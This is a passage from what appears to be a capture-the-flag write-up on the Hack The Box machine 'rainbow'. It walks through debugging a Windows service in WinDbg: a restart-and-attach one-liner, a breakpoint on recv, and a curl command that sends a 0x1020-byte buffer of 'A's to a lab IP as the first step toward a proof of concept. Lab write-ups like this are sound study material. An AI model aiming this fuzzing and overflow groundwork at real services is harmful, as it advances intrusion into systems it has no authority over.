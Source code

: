 That looks an awful lot like a function pointer exec, save for the three argument being passed to it.  We can see that pointer-to-param1 is being cast as a pointer-to-code-pointer, and then getting called with three arguments.

There is nothing left to analyze here at the moment.


# Dynamic analysis
Only way forward is to debug it live.  The following can help expedite managing the lifecycle of the binary and attaching windbg to it.  one of the challenges is that the application blocks while its running, and it has console output .  So it has to be started as a background process and output redirected to a file while trying to one-liner starting and attaching to it.

Additionally I have set an initial breakpoint at the instruction that calls Ordinal_16 (recv).
```sh
c:\rainbow>((cmd.exe /c "taskkill /F /IM rainbow.exe" && timeout 3 && START /B "" "c:\rainbow\rainbow.exe" > c:\users\admin\desktop\current_thing\output.txt) || START /B "" "c:\rainbow\rainbow.exe" > c:\users\admin\desktop\current_thing\output.txt) && timeout 3 && "C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\windbg.exe" -WF C:\windbg_custom.WEW -pn rainbow.exe -c 'bp 0x00401971; g'
```

In `IDAPro`, that would actually be here:

![[Pasted_image_20251025221501.png]]

To cause the application to hit the breakpoint, I can start with an initial curl command, although this is just a hello world; this is about to become a PoC.
```sh
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/rainbow/dump]
└─$ perl -e "printf 'A'x0x1020" | curl -X POST http://192.168.56.100:8080/index.html -d "fuzzed=$(cat -)"
```

The convention for calling `ws2_32::recv`

https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-recv

```c
int WSAAPI recv(
  [in]  SOCKET s,
  [out] char   *buf,
  [in]  int    len,
  [in]  int    flags
);
```

That means at the breakpoint, the first four dwords on the stack are the arguments.
```sh
Breakpoint 0 hit
eax=00000110 ebx=0022d000 ecx=00000018 edx=0019eca8 esi=0019ff24 edi=0019fdac
eip=00401971 esp=0019ec90 ebp=0019fe08 iopl=0         nv up ei pl nz ac pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000216
rainbow+0x1971:
00401971 ff15ccb14000    call    dword ptr [rainbow+0xb1cc (0040b1cc)] ds:002b:0040b1cc={WS2_32!recv (774b23a0)}

0:000> dd esp L4
0019ec90  00000110 0019eca8 00001000 00000000
```
